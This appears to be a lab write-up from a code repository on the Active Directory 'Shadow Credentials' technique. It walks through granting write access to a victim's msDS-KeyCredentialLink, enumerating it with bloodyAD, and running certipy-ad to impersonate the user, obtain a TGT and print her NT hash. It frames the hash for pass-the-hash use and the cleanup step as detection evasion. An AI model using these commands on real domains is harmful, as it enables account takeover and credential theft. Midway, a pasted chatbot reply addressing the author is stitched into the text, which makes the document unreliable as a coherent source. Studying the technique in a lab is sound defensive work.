



# 🔐 Shadow Credentials 

**Shadow Credentials** is an Active Directory persistence technique where an attacker adds their own public key credential to a target account’s `msDS-KeyCredentialLink` attribute.

Normally, this attribute is used by **Windows Hello for Business (WHfB)** in **Key Trust mode** to store public keys that allow a user to log in without a password — using PKINIT (Kerberos authentication with public key cryptography).

If an attacker can write to this attribute, they can:

1. **Inject their own key** into the victim’s account.
2. Authenticate as that victim **without knowing their password or hash**.
3. Bypass common credential theft defenses like smart card requirements or password resets.

---

## **Why It Works**

* **WHfB Key Trust** stores a public key in `msDS-KeyCredentialLink`.
* A domain controller with Server Authentication certificate + Windows Server 2016 functional level supports PKINIT.
* When a client presents the matching private key, the DC issues a Kerberos TGT **as if they were the account owner**.

So if you control the attribute, you control the account.

## Setting up a Home Lab for Shadow Credentials

Let’s suppose we have two users: **Komal** and **Hamza**.  
Hamza has **GenericWrite** or **Write** permissions on the **msDS-KeyCredentialLink** attribute of the user **Komal**.  
In this case, we can perform the Shadow Credentials attack.

---

### Step 1: Open ADSI Edit  
1. Go to **ADSI Edit**.  
2. Navigate to the **target account** (Komal).  
3. Right-click → **Properties** → **Security**.  
4. Click **Add** and select the **owned account** (Hamza).  



---

### Step 2: Grant Write Permission to `msDS-KeyCredentialLink`  
1. In the Security tab, click **Advanced**.  
2. Select **Hamza** and give **Write** permissions to the `msDS-KeyCredentialLink` attribute.  




### Enumeration of Shadow Credentials

We can enumerate shadow credential permissions using **BloodHound** or **BloodyAD**.

**Using BloodHound**



**Using BloodyAD**

```bash
┌──(kali㉿kali)-[~]
└─$ bloodyAD --host furious.local -d furious.local -u 'hamza' -p 'complex1@' get writable --detail

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=furious,DC=local
url: WRITE
wWWHomePage: WRITE

distinguishedName: CN=komal,CN=Users,DC=furious,DC=local
msDS-KeyCredentialLink: WRITE

distinguishedName: CN=hamza,CN=Users,DC=furious,DC=local
thumbnailPhoto: WRITE
pager: WRITE
mobile: WRITE
homePhone: WRITE
.
.
.
```

Got it — so you’re documenting the **abuse phase** of the Shadow Credentials attack.

Your snippet is already a solid terminal output, but in your document you’ll want to explain **what’s happening at each step**, otherwise it’s just a block of commands.

Here’s how you could break it down:

---

### **Abusing Shadow Credentials with Certipy**

Once the targeted account (`komal`) has the `msDS-KeyCredentialLink` attribute populated with a malicious key credential, we can authenticate as that account without knowing its password.

We can automate the whole process using:

```bash
certipy-ad shadow auto -u hamza -p complex1@ -account komal -dc-ip $IP
```

**Explanation of parameters:**

* `-u hamza` – The compromised account we control (with write access to `komal`’s `msDS-KeyCredentialLink` attribute).
* `-p complex1@` – Password for `hamza`.
* `-account komal` – The target account we want to impersonate.
* `-dc-ip $IP` – IP address of the domain controller.

---

### **Step-by-step output explanation**

1. **Generate certificate & key credential**

   * Certipy creates a self-signed certificate and a Key Credential (with a unique `DeviceID`).

2. **Add Key Credential to target account**

   * The malicious Key Credential is added to the target’s `msDS-KeyCredentialLink` attribute.

3. **Authenticate with certificate**

   * Certipy uses the certificate to request a Kerberos TGT for `komal` (certificate-based authentication bypasses the need for a password).

4. **Retrieve NT hash**

   * Once authenticated, the NTLM hash of `komal` is retrieved from the domain controller.
   * This hash can be used for **Pass-the-Hash** or other lateral movement.

5. **Restore original Key Credentials**

   * The malicious key credential is removed to reduce detection risk.


```
┌──(kali㉿kali)-[~]
└─$ certipy-ad shadow auto -u hamza -p complex1@ -account komal -dc-ip $IP
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'komal'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '54fae7a7-d609-acf5-0b07-2f77ca8e12f2'
[*] Adding Key Credential with device ID '54fae7a7-d609-acf5-0b07-2f77ca8e12f2' to the Key Credentials for 'komal'
[*] Successfully added Key Credential with device ID '54fae7a7-d609-acf5-0b07-2f77ca8e12f2' to the Key Credentials for 'komal'
[*] Authenticating as 'komal' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'komal@furious.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'komal.ccache'
[*] Wrote credential cache to 'komal.ccache'
[*] Trying to retrieve NT hash for 'komal'
[*] Restoring the old Key Credentials for 'komal'
[*] Successfully restored the old Key Credentials for 'komal'
[*] NT hash for 'komal': f26db8968d8e6c0790978b2b30b262e5

```
